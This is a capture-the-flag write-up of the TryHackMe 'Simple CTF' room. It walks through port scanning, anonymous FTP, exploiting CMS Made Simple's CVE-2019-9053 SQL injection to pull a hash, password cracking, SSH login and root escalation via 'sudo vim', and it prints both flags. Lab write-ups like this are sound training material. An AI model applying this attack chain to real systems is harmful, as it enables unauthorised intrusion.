

# Write Up for Try Hack Me box - [Simple CTF](https://tryhackme.com/room/easyctf)

We get on the system using one of the CMS. Find it out.\
The privesc is simple if you are vim guy. Emac, better luck next time.

> Pratyush Prakhar (5#1NC#4N) - 11/02/2023

## RECONNAISSANCE

1. Scan the box with rustscan.
	1. Full port scan --> [rustscan file](rustscan/all.nmap)

	**Results**

	```bash
	$ rustscan --range 1-65535 -a 10.10.231.118 -- -oN rustscan/all.nmap 
	.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
	| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
	| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
	`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
	The Modern Day Port Scanner.
	________________________________________
	: http://discord.skerritt.blog           :
	: https://github.com/RustScan/RustScan :
	--------------------------------------
	0day was here ♥

	[~] The config file is expected to be at "/home/kali/.rustscan.toml"
	[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
	[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
	Open 10.10.231.118:21
	Open 10.10.231.118:80
	Open 10.10.231.118:2222
	[~] Starting Script(s)
	[>] Running script "nmap -vvv -p {{port}} {{ip}} -oN rustscan/all.nmap" on ip 10.10.231.118
	Depending on the complexity of the script, results may take some time to appear.
	[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-09 01:20 IST
	Initiating Ping Scan at 01:20
	Scanning 10.10.231.118 [2 ports]
	Completed Ping Scan at 01:20, 0.21s elapsed (1 total hosts)
	Initiating Parallel DNS resolution of 1 host. at 01:20
	Completed Parallel DNS resolution of 1 host. at 01:20, 0.00s elapsed
	DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
	Initiating Connect Scan at 01:20
	Scanning 10.10.231.118 [3 ports]
	Discovered open port 2222/tcp on 10.10.231.118
	Discovered open port 80/tcp on 10.10.231.118
	Discovered open port 21/tcp on 10.10.231.118
	Completed Connect Scan at 01:20, 0.20s elapsed (3 total ports)
	Nmap scan report for 10.10.231.118
	Host is up, received syn-ack (0.20s latency).
	Scanned at 2023-11-09 01:20:27 IST for 0s

	PORT     STATE SERVICE      REASON
	21/tcp   open  ftp          syn-ack
	80/tcp   open  http         syn-ack
	2222/tcp open  EtherNetIP-1 syn-ack

	Read data files from: /usr/bin/../share/nmap
	Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
	```

	2. Full Service and Scripts scan on the found ports. --> [nmap file](rustscan/main.nmap)

	**Results**

	```bash
	$ rustscan --ports 21,80,2222 -a 10.10.231.118 -- -sC -sV -oN rustscan/main.nmap
	.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
	| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
	| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
	`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
	The Modern Day Port Scanner.
	________________________________________
	: http://discord.skerritt.blog           :
	: https://github.com/RustScan/RustScan :
	--------------------------------------
	0day was here ♥

	[~] The config file is expected to be at "/home/kali/.rustscan.toml"
	[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
	[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
	Open 10.10.231.118:21
	Open 10.10.231.118:2222
	Open 10.10.231.118:80
	[~] Starting Script(s)
	[>] Running script "nmap -vvv -p {{port}} {{ip}} -sC -sV -oN rustscan/main.nmap" on ip 10.10.231.118
	Depending on the complexity of the script, results may take some time to appear.
	Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
	[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-09 01:20 IST
	NSE: Loaded 156 scripts for scanning.
	NSE: Script Pre-scanning.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 01:20
	Completed NSE at 01:20, 0.00s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 01:20
	Completed NSE at 01:20, 0.00s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 01:20
	Completed NSE at 01:20, 0.00s elapsed
	Initiating Ping Scan at 01:20
	Scanning 10.10.231.118 [2 ports]
	Completed Ping Scan at 01:20, 0.16s elapsed (1 total hosts)
	Initiating Parallel DNS resolution of 1 host. at 01:20
	Completed Parallel DNS resolution of 1 host. at 01:20, 0.00s elapsed
	DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
	Initiating Connect Scan at 01:20
	Scanning 10.10.231.118 [3 ports]
	Discovered open port 80/tcp on 10.10.231.118
	Discovered open port 2222/tcp on 10.10.231.118
	Discovered open port 21/tcp on 10.10.231.118
	Completed Connect Scan at 01:20, 0.20s elapsed (3 total ports)
	Initiating Service scan at 01:20
	Scanning 3 services on 10.10.231.118
	Completed Service scan at 01:21, 6.45s elapsed (3 services on 1 host)
	NSE: Script scanning 10.10.231.118.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 01:21
	NSE: [ftp-bounce 10.10.231.118:21] PORT response: 500 Illegal PORT command.
	NSE Timing: About 99.76% done; ETC: 01:21 (0:00:00 remaining)
	Completed NSE at 01:21, 31.04s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 01:21
	Completed NSE at 01:21, 1.29s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 01:21
	Completed NSE at 01:21, 0.00s elapsed
	Nmap scan report for 10.10.231.118
	Host is up, received syn-ack (0.17s latency).
	Scanned at 2023-11-09 01:20:55 IST for 40s

	PORT     STATE SERVICE REASON  VERSION
	21/tcp   open  ftp     syn-ack vsftpd 3.0.3
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to ::ffff:10.17.88.193
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      At session startup, client count was 2
	|      vsFTPd 3.0.3 - secure, fast, stable
	|_End of status
	| ftp-anon: Anonymous FTP login allowed (FTP code 230)
	|_Can't get directory listing: TIMEOUT
	80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	| http-robots.txt: 2 disallowed entries 
	|_/ /openemr-5_0_1_3 
	|_http-title: Apache2 Ubuntu Default Page: It works
	2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj5RwZ5K4QU12jUD81IxGPdEmWFigjRwFNM2pVBCiIPWiMb+R82pdw5dQPFY0JjjicSysFN3pl8ea2L8acocd/7zWke6ce50tpHaDs8OdBYLfpkh+OzAsDwVWSslgKQ7rbi/ck1FF1LIgY7UQdo5FWiTMap7vFnsT/WHL3HcG5Q+el4glnO4xfMMvbRar5WZd4N0ZmcwORyXrEKvulWTOBLcoMGui95Xy7XKCkvpS9RCpJgsuNZ/oau9cdRs0gDoDLTW4S7OI9Nl5obm433k+7YwFeoLnuZnCzegEhgq/bpMo+fXTb/4ILI5bJHJQItH2Ae26iMhJjlFsMqQw0FzLf
	|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM6Q8K/lDR5QuGRzgfrQSDPYBEBcJ+/2YolisuiGuNIF+1FPOweJy9esTtstZkG3LPhwRDggCp4BP+Gmc92I3eY=
	|   256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2I73yryK/Q6UFyvBBMUJEfznlIdBXfnrEqQ3lWdymK
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	NSE: Script Post-scanning.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 01:21
	Completed NSE at 01:21, 0.00s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 01:21
	Completed NSE at 01:21, 0.00s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 01:21
	Completed NSE at 01:21, 0.00s elapsed
	Read data files from: /usr/bin/../share/nmap
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 39.42 seconds
	```

2. There are **3 TCP** ports open. 
	1. *Port 21* - FTP - **vsftpd 3.0.3** 
	2. *Port 80* - HTTP - **Apache httpd 2.4.18**
	2. *Port 2222* - SSH - **OpenSSH 7.2p2**

3. Let's enumerate them one by one. First let's jump into FTP and then Web.

## FTP

1. We get into the the FTP listing through the anonymous login. We see that there is a `pub` directory listed.

```bash
$ ftp 10.10.231.118
Connected to 10.10.231.118.
220 (vsFTPd 3.0.3)
Name (10.10.231.118:kali): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||40821|)
ftp: Can't connect to `10.10.231.118:40821': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
......................................................................
166 bytes received in 00:00 (0.79 KiB/s)
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> exit
221 Goodbye.
```

2. We get a note for `Mitch` in this directory. This says that he as a developer has set a very weak password for the system user. This can be kept in mind when we do get into creds cracking at a later stage.

```bash
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |**************************************************************************************|   166        4.27 MiB/s    00:00 ETA
226 Transfer complete.
```

3. Let's now explore the path of Web to find where this information can come in handy.


## WEB

1. Let's first check out the web server on port 80. 
	1. We get the `default Apache` page. --> No out going links.
	
	2. Let's check for the low hanging fruits such as robots.txt, backend language processor, and basic login and admin pages. --> `/openemr-5_0_1_3` disallowed.
	3. Basic Nikto Scan yields following [results](web/nikto.txt).
	4. We can run sub domain check on this port using `feroxbuster`. Results [here](web/ferox.txt).

2. Let's first check into the possibility of [Open EMR](https://github.com/openemr/openemr) software being installed on the web server. It is an open-source medical management application that have known CVEs. But on exploring them [all](web/openemr), we found nothing to work against our instance.

```bash
$ searchsploit openemr 5.0.1.3
------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                   |  Path
------------------------------------------------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated)                      | php/webapps/49998.py
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2)                  | php/webapps/50122.rb
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions                                         | linux/webapps/45202.txt
OpenEMR 5.0.1.3 - Authentication Bypass                                                          | php/webapps/50017.py
OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)                                          | php/webapps/45161.py
------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

3. In the `feroxbuster scan`, we find that there is another CMS installed on the webserver at `/simple`. On exploring, we find it is _CMS made simple v 2.2.8_ which again has a known **SQL injection vulnerability** for all versions less than `2.2.10`. **CVE-2019-9053** allows one to exploit the News module, through a crafted URL, to achieve unauthenticated blind time-based SQL injection via the m1_idlist parameter.

```bash
$ searchsploit cms made simple 2.2.8
------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                   |  Path
------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                         | php/webapps/46635.py
------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

4. Through the [python script](web/simple/46635.py), we extract useful information about the user [mitch](web/simple/extracted_information.txt) as shown below. We cna now use this quick win [crack-the-password](web/simple/passwd_crack.py) to crack the simple password which we got from earlier hint and also from the task. You can use any other common-password list too. But keep it short.

```
[+] Username found: mitch
[+] E-mail found: admin@admin.com
[+] Salt for password found: 1dac0d92e9fa6bb2
[*] Hash found: 0c01f4468bd75d7a84c7eb73846e8d96
```

5. We can now use these [creds](creds.txt) to login into the CMS as admin and play around. But let's also check for creds reusability for a quick win. 


## SSH - SYS ACCESS 

1. Using the above found creds for the user - `mitch`, we can get in through SSH at port `2222` but is somewhat restricted shell. we will get to know about this later. But we can easily obtain the user flag in his `home dir`.


```bash
$ ssh -p 2222 mitch@10.10.103.25      
The authenticity of host '[10.10.103.25]:2222 ([10.10.103.25]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:24: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.103.25]:2222' (ED25519) to the list of known hosts.
mitch@10.10.103.25's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ pwd
/home/mitch
$ cat user.txt
**********************
```

2. Let's get a proper shell as shown below and start the enumeration in common directories and through linpeas.
	1. We find that there is another user `sunbath` on the system. (home directory)
	2. Only two users are proper user's on the box - _sunbath & root_. Someone removed the shell for mitch. Weird. That is why we ended up in `/bin/sh`. Mystery solved.
	3. Linpeas result's to examine further - [mitch's scan]
	4. mitch can run `vim` with root privileges. Possible path for elevation.

```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:/home$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
sunbath:x:1000:1000:Vuln,,,:/home/sunbath:/bin/bash
mitch@Machine:/home$ cat /etc/passwd | grep mitch
mitch:x:1001:1001::/home/mitch:
```

## PRIVESC

1. `/usr/bin/vim` can be used to escalate to root as described here in [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo).

```bash
mitch@Machine:/home$ sudo vim -c ':!/bin/bash'

root@Machine:/home# whoami
root
root@Machine:/home# cd /root/
root@Machine:/root# cat root.txt 
***********************************
```

2. Now we have pawned the box. We can make it dance on our commands. And here I bid GoodBye.

## EXTRA TREATS

1. There is another way into the box for [initial access]() on the box other than above method. Meta it out !!

2. Ran a quick linpeas scan as `mitch` and `root`. Happy hunting --> [files here](ssh/tmp)

3. There is some useful files that I downloaded just for you. Have a [look](ssh/etc).

## FLAGS

1. User Flag - `G00d j0b, keep up!`

2. Root Flag - `W3ll d0n3. You made it!`

**Stay Tuned On**\
[GitHub](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)